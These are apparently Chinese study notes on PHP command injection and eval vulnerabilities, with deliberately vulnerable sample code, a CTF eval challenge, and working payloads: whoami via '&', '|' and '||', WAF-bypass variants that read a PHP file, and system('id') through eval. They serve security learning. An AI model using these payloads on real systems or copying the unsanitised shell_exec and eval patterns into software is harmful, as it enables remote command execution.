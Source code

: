 ```http
if(isset($_POST['submit']) && $_POST['ipaddress']!=null){
    $ip=$_POST['ipaddress'];
//     $check=explode('.', $ip);可以先拆分，然后校验数字以范围，第一位和第四位1-255，中间两位0-255
    if(stristr(php_uname('s'), 'windows')){
//         var_dump(php_uname('s'));
        $result.=shell_exec('ping '.$ip);//直接将变量拼接进来，没做处理
    }else {
        $result.=shell_exec('ping -c 4 '.$ip);
    }

}
```

`127.0.0.1&whoami`

`127.0.0.1||whoami`

`127.0.0.1|whoami`

或者绕waf

`127.0.0.1&wh\oami`

`127.0.0.1 & ca\t ../?ey.?hp`

## eval

核心代码

```php
$html='';
if(isset($_POST['submit']) && $_POST['txt'] != null){
    if(@!eval($_POST['txt'])){
        $html.="<p>你喜欢的字符还挺奇怪的!</p>";

    }

}
```

eval可直接执行php代码

`phpinfo();`

当然也能使用system函数执行命令，要考虑闭合

```php
{{system('id')}}

;?><?php system('id');

```

一个eval函数的ctf题

```php
 <?php
error_reporting(0);
include "key4.php";
$a=$_GET['a'];
eval("\$o=strtolower(\"$a\");");
echo $o;
show_source(__FILE__); 
```
